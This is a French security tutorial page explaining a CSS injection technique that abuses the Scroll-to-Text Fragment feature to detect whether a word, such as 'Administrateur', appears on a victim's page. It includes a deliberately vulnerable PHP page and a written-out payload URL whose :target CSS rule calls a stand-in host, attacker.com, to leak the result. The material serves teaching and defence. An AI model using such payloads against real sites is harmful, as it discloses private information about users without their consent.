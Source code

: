```yaml
---
description: 16 Décembre 2022
---
```


# Les injections CSS - Scroll-to-Text Fragment

> Cette exploitation d'une injection CSS va permettre à l'attaquant de savoir si l'occurrence d'un mot est présente ou non sur la page ciblée. Cela peut être utile pour identifier, par exemple, si la victime est connectée en tant qu'administrateur ou non.

## Scroll-to-Text Fragment

Un attaquant peut s'appuyer sur la fonctionnalité de Scroll-to-Text Fragment afin d'exploiter une injection CSS dans l'objectif de connaitre la présence d'un mot ou d'une phrase dans la page Web de sa victime. Les scénarios d'utilisation sont très nombreux, mais il est possible de prendre le cas d'un attaquant souhaitant connaitre le rôle de la victime.

{% hint style="info" %}
La fonctionnalité de lien vers un fragment de texte (Scroll-to-Text Fragment) permet à un utilisateur de créer un lien vers une partie spécifique d'une page en prenant comme référence un texte fournit dans l'URL. Une fois la page chargée, le navigateur mettra le texte recherché en surbrillance et fera défiler l'écran jusqu'à sa position.



La fonctionnalité Scroll-to-Text Fragment n'étant pas un standard, elle n'est donc pas implémentée sur Firefox.
{% endhint %}

En admettant la page vulnérable suivante :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>CSS Injection</title>
    <style>
      h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
    </style>
  </head>
  <body>
    <h1>Injection CSS - utilisation de la fonctionnalité Scroll-to-Text Fragment</h1>
    <div>
      <p>Connecté en tant que <?php echo $role ?></p>
    </div>
  </body>
</html>
```
{% endcode %}

La variable PHP `$role` contient le rôle du visiteur authentifié. Elle peut contenir la valeur "Administrateur" ou "Utilisateur". L'attaquant souhaite tout d'abord déterminer si le visiteur de la page est bien l'administrateur du site afin, ensuite, d'effectuer une attaque plus poussée contre lui ; c'est ici que la fonctionnalité Scroll-to-Text Fragment va lui être utile.

{% hint style="info" %}
L'article original concernant cette exploitation est disponible ici : [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)
{% endhint %}

### Text Fragments

Un fragment de texte dans une URL se compose du signe `#` suivi de `:~:text=` et se termine par le texte ciblé (encodé en URL) :&#x20;

```
http://vulnerable.com/scroll-to-text.php#:~:text=texte-ciblé
```

En reprenant le code de l'exemple précédent, il est donc possible de mettre en surbrillance le mot ciblé comme ceci :&#x20;

```
http://vulnerable.com/scroll-to-text.php#:~:text=Administrateur
```

<figure><img src="../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

Ou alors une phrase entière :&#x20;

<figure><img src="../../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

Il est également possible de surligner tout un paragraphe en spécifiant le texte du début (`textStart`) et le texte de fin (`textEnd`) séparés par une virgule :&#x20;

<figure><img src="../../../.gitbook/assets/image (311).png" alt=""><figcaption></figcaption></figure>

Ou encore d'ajouter des suffixes et des préfixes :&#x20;

```html
#:~:text=[prefix-,]textStart[,textEnd][,-suffix]
```

Une dernière possibilité pouvant être utile est de pouvoir effectuer une multi sélection grâce au caractère `&`. Par exemple :&#x20;

<figure><img src="../../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

### La pseudo-class :target&#x20;

L'injection CSS et l'utilisation de la pseudo-class `:target`, va permettre de prévenir l'attaquant dans le cas ou le texte recherché a bien été trouvé :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  :target::before {
    content:url(http://attacker.com/isAdmin);
  }
</style>
```
{% endcode %}

Soit l'injection suivante :&#x20;

{% code overflow="wrap" %}
```
http://vulnerable.com/scroll-to-text.php?color=black;}:target::before{content:url(http://attacker.com/isAdmin);#:~:text=Administrateur
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (221).png" alt=""><figcaption></figcaption></figure>

L'attaque ne passera pas inaperçu pour la victime puisque le texte ciblé sera souligné et un défilement sera effectué si nécessaire :&#x20;

<figure><img src="../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

### Limites de l'attaque

Outre le fait de pouvoir injecter du CSS, l'attaque possède quelques limites. Comme déjà évoqué, elle est assez voyante pour la victime par le surlignage et le défilement.

{% hint style="info" %}
A noter que si le serveur vulnérable présente l'entête HTTP `Document-Policy` avec la valeur `force-load-at-top` alors, le défilement n'aura pas lieu, ce qui peut être un avantage pour l'attaquant.
{% endhint %}

De plus, la fonctionnalité s'active seulement lors d'une navigation vers une page différente, c'est à dire que rafraichir la page ou ouvrir un lien vers la même page ne déclenchera pas l'attaque. Exit également l'iframing de la page vulnérable, la fonctionnalité ne se déclenchera pas dans ce contexte non plus.

## Références

* [https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection)
* [https://x-c3ll.github.io/posts/CSS-Injection-Primitives/](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/)
* [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)
